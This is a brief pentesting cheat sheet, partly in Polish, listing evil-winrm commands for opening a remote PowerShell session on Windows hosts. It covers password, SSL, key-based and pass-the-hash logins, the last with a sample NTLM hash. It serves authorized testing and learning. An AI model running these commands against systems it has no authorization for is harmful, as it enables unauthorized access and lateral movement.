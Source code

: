 # Windows Remote Management shell for pentesting.
Wykorzystuje WinRM do utworzenia shella

```powershell
evil-winrm -i <target-ip> -u username -p password

# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```
If you have private key and public key, you can use them for authentication.

```sh
# -S: SSL
# -k: private key
# -c: public key
evil-winrm -i <target-ip> -S -k private.key -c public.key
```

https://exploit-notes.hdks.org/exploit/windows/protocol/winrm-pentesting/

|                 |                                         |
| --------------- | --------------------------------------- |
| `-i <IP>`       | IP hosta                                |
| `-P <port>`     | port (można pominąć, wybierze domyślny) |
| `-u ... -p ...` | login i hasło użytkownika               |

# Pass-the-hash
```bash
# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc
```